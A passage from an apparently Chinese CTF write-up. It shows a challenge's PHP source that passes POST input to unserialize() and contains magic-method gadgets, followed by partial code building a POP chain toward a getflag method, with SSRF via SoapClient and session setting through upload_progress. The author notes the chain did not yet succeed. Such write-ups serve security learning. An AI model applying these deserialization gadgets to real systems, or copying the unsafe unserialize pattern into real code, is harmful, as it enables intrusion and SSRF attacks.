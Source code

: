 ```php
                $this->mod2 = $this->mod3.$this->mod1;
        }
}
class dd
{
        public $name;
        public $flag;
        public $b;
        
        public function getflag()
        {
                session_start();
                var_dump($_SESSION);
                $a = array(reset($_SESSION),$this->flag);
                echo call_user_func($this->b,$a);
        }
}
class ee
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->{$this->str2}();
                return "1";
        }
}




$a = $_POST['aa'];
unserialize($a);
?>
```

但是耐心搞一会还是可以弄出POP链的，同时还可以读cookie解密php，逆一下就可以得到加密算法伪造admin

POP链就是最后到getflag那里改的原题[https://wywwzjj.top/2019/08/20/%E5%BD%93PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%81%87%E4%B8%8ASSRF/#2018-LCTF-babyphp%E2%80%99s-revenge](https://wywwzjj.top/2019/08/20/当PHP反序列化遇上SSRF/#2018-LCTF-babyphp's-revenge)但是没有session设置的方法，所以找到个方法，设置session，可以利用upload_progress来设置session，但是这样设置了在reset($_SESSION)并不能返回soapclient的对象，所以暂时没利用成功。先说下getflag的触发思路吧

```php
$a = new aa();
$b = new bb();
$c = new cc();
$d = new dd();
$e = new ee();


// 7. 调用call_user_func(reset($_SESSION), $d->flag) 如果reset($_SESSION)是个soapclient就会触发ssrf 差这一步 需要靠upload_progress 但是并不成功
$d->b = 'call_user_func';
$d->flag = 'Get_flag';


// 6. __to_strging中会调用 $this->str1->{$this->str2}(); 就是dd::getflag()
$e->str1 = $d;
$e->str2 = 'getflag';

//从下往上看
// 5. 在invoke中调用字符串中拼接时，因为都是对象，所以都会触发该对象的__get
$c->mod3 = $e;
```
